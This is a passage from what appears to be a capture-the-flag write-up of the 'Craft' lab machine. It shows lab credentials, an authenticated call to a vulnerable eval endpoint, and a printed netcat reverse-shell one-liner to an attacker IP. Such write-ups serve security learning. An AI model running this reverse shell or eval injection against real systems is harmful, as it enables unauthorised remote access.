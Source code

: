 ![Img](/assets/posts_details/Craft/images/gogs6.png)

#### Exploiting the API

As the vulnerable code which executed eval needed authentication I came up with the following strategy:

1. With the credentials found before `dinesh:4aUh0A8PbVJxgd`, authenticate on `/auth/login` and get a token.
2. Call the function that executes the vulnerable eval function under `/api/brew`.
3. Use that eval function to get a reverse shell.

I had trouble getting a shell that worked but I finally found this one:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 8080 >/tmp/f
```

To automate all the boring process I wrote a quick bash script to do everything for me, I just needed to run the script and set up a netcat listener to get the connection:

*Getting a reverse shell*

![Img](/assets/posts_details/Craft/images/reverse.png)
